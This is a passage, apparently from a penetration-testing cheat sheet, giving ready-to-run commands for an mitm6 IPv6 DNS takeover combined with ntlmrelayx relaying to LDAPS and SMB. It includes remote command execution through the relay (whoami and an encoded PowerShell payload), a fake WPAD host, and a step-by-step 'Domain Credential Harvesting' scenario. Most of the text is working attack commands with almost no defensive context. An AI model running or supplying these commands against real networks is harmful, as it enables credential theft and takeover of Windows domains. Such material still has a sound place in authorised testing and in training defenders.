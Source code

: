 #### Advanced Options
```bash
# Ignore specific hosts
mitm6 -d domain.local --ignore-hosts dc01.domain.local,dc02.domain.local

# Custom domain for WPAD
mitm6 -d domain.local --wpad-domain evil.local

# Disable Router Advertisement
mitm6 -d domain.local --no-ra

# Custom IPv6 prefix
mitm6 -d domain.local --ipv6-prefix 2001:db8::/64
```

### Combining with ntlmrelayx

#### Setup 1: LDAP Relay
```bash
# Terminal 1 - Start mitm6
mitm6 -d domain.local

# Terminal 2 - NTLM relay to LDAP
ntlmrelayx.py -t ldaps://dc.domain.local -wh fakewpad.domain.local -6
```

#### Setup 2: SMB Relay
```bash
# Terminal 1 - Start mitm6
mitm6 -d domain.local

# Terminal 2 - NTLM relay to SMB
ntlmrelayx.py -tf targets.txt -wh fakewpad.domain.local -6 -c whoami
```

#### Setup 3: Multiple Targets
```bash
# Terminal 1 - Start mitm6
mitm6 -d domain.local

# Terminal 2 - Relay with multiple protocols
ntlmrelayx.py -tf targets.txt -wh fakewpad.domain.local -6 \
  -c "powershell.exe -enc <base64_payload>"
```

### Attack Scenarios

#### Scenario 1: Domain Credential Harvesting
```bash
# Step 1: Start mitm6 to capture IPv6 traffic
mitm6 -d corp.local -v

# Step 2: Set up NTLM relay (separate terminal)
ntlmrelayx.py -t ldaps://dc01.corp.local -wh fakewpad.corp.local -6

# Step 3: Wait for machines to request WPAD configuration
# Credentials will be captured automatically
```
